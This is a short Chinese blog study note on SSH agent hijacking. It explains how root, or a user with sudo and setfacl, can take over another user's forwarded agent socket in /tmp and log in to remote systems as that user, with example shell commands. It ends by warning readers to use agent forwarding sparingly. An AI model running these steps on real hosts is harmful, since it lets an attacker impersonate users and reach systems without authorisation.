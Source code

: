 title:SSH学习笔记之--Agent Hijacking 
Date: 2015-08-27 10:20
Modified: 2015-08-27 10:20
Category: SSH 
Tags: SSH, anget hijacking
Slug: ssh-agent-hijacking 
Authors: nullne 
####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：
	


```
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!
```

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

```
	ssh -A user@host
	user@host$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	user@host$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	user@host$ sudo su - otheruser
	otheruser@host$ ssh server
	otheruser@server$
```   	
目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
